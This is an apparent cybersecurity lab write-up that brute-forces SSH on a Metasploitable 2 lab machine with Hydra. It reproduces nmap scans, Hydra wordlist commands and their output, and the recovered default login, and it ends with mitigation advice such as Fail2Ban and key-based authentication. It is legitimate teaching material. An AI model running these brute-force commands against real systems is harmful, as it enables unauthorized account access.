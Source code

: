 # Brute Force SSH Login Using Hydra

## Objective

Simulate a brute-force attack against an SSH service using Hydra to test password strength and understand the risks of weak or default credentials.

## Target Information

- **Target Machine:** Metasploitable 2
- **IP Address:** 192.168.56.102
- **Service:** SSH (Port 22)
- **Known User:** `msfadmin`

## Tools Used

- Kali Linux
- Hydra (pre-installed in Kali)
- RockYou password list: `/usr/share/wordlists/rockyou.txt`
- Nmap (for recon)
- Custom wordlist: `quicklist.txt`

## Lab 
### STEP 1

#### Ensure Metasploitable 2 is powered on and reachable from Kali

Confirm SSH is enabled on the target:

```bash
nmap -sS -sV -O 192.168.56.102
nmap -p 22 192.168.56.102
```
![image](https://github.com/user-attachments/assets/5f925245-1d15-41b4-b92c-2439563e5ed1)
Confirm that SSH is running and reachable (I did a little extra)

### STEP 2 

#### Enable SSH client compatibility in Kali (After SSH atttept failed)

#### Failed SSH attempt
```bash
──(kali㉿kali)-[/usr/share/wordlists]
└─$ hydra -l msfadmin -P /usr/share/wordlists/rockyou.txt.gz  ssh://192.168.56.102

Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2025-07-01 13:11:17
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task
[DATA] attacking ssh://192.168.56.102:22/
[ERROR] could not connect to ssh://192.168.56.102:22 - kex error : no match for method server host key algo: server [ssh-rsa,ssh-dss], client [ssh-ed25519,ecdsa-sha2-nistp521,ecdsa-sha2-nistp384,ecdsa-sha2-nistp256,sk-ssh-ed25519@openssh.com,sk-ecdsa-sha2-nistp256@openssh.com,rsa-sha2-512,rsa-sha2-256]
```

#### Enable SSH Client

```bash
sudo kali-tweaks
```
Go to Hardening
![Screenshot 2025-07-01 134802](https://github.com/user-attachments/assets/63042173-8d77-438f-aa07-a7d134811899)


Toggle SSH Client
![Screenshot 2025-07-01 134826](https://github.com/user-attachments/assets/6494ba13-6efb-436c-8727-83577d01b8e5)
![Screenshot 2025-07-01 134815](https://github.com/user-attachments/assets/32e5b084-6d0a-4c21-b3d1-084391714d56)

This allows Hydra to connect to legacy SSH servers like Metasploitable 2

### STEP 3
#### Attempting RockYou (Too large)

```bash
hydra -l msfadmin -P /usr/share/wordlists/rockyou.gz ssh://192.168.56.102
```
#### Failed (Cancelled) due to large size

```bash
└─$ hydra -l msfadmin -P /usr/share/wordlists/rockyou.txt.gz  ssh://192.168.56.102

Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2025-07-01 13:34:48
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task
[DATA] attacking ssh://192.168.56.102:22/
[STATUS] 216.00 tries/min, 216 tries in 00:01h, 14344191 to do in 1106:49h, 8 active
 [STATUS] 208.00 tries/min, 624 tries in 00:03h, 14343783 to do in 1149:21h, 8 active
```
#### Realized I needed to uncompress file

```bash
sudo gzip -d /usr/share/wordlists/rockyou.txt.gz
```

### STEP 4

#### Create a faster wordlist

```bash
echo -e "msfadmin\nadmin\npassword\n123456\nletmein\nkali" > quicklist.txt
```

### STEP 5
#### Run Hydra with optimization flags (Run Hydra with decompressed RockYou)

```bash
hydra -l msfadmin -P quicklist.txt ssh://192.168.56.102 -t 4 -V -f
```
#### Result

```bash
┌──(kali㉿kali)-[~]
└─$ hydra -l msfadmin -P quicklist.txt ssh://192.168.56.102 -t 4 -V -f

Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2025-07-01 13:39:05
[WARNING] Restorefile (you have 10 seconds to abort... (use option -I to skip waiting)) from a previous session found, to prevent overwriting, ./hydra.restore
[DATA] max 4 tasks per 1 server, overall 4 tasks, 6 login tries (l:1/p:6), ~2 tries per task
[DATA] attacking ssh://192.168.56.102:22/
[ATTEMPT] target 192.168.56.102 - login "msfadmin" - pass "msfadmin" - 1 of 6 [child 0] (0/0)
[ATTEMPT] target 192.168.56.102 - login "msfadmin" - pass "admin" - 2 of 6 [child 1] (0/0)
[ATTEMPT] target 192.168.56.102 - login "msfadmin" - pass "password" - 3 of 6 [child 2] (0/0)
[ATTEMPT] target 192.168.56.102 - login "msfadmin" - pass "123456" - 4 of 6 [child 3] (0/0)
[22][ssh] host: 192.168.56.102   login: msfadmin   password: msfadmin
[STATUS] attack finished for 192.168.56.102 (valid pair found)
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2025-07-01 13:39:15
```
Success!

#### Run with uncompressed RockYou

```bash
└─$ hydra -l msfadmin -P /usr/share/wordlists/rockyou.txt ssh://192.168.56.102 -t 6   
```

#### Result (still too long)
```bash
└─$ hydra -l msfadmin -P /usr/share/wordlists/rockyou.txt ssh://192.168.56.102 -t 6       

Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2025-07-01 14:04:24
[WARNING] Restorefile (you have 10 seconds to abort... (use option -I to skip waiting)) from a previous session found, to prevent overwriting, ./hydra.restore
-I
[DATA] max 6 tasks per 1 server, overall 6 tasks, 14344399 login tries (l:1/p:14344399), ~2390734 tries per task
[DATA] attacking ssh://192.168.56.102:22/
[STATUS] 162.00 tries/min, 162 tries in 00:01h, 14344237 to do in 1475:45h, 6 active
```

## Analysis
- Brute-forcing with Hydra is effective when credentials are weak
- Custom wordlists reduce time, increase efficiency in lab settings
- rockyou.txt is too large for quick testing and isn’t practical here
- The target accepted a known default credential (msfadmin:msfadmin)

## Mititgation Recommedations
- Enforce strong passwords
- Disable default accounts or rename them
- Limit SSH access (IP whitelisting, firewall)
- Use tools like Fail2Ban to detect and block repeated login attempts
- Consider disabling password-based login in favor of key-based auth
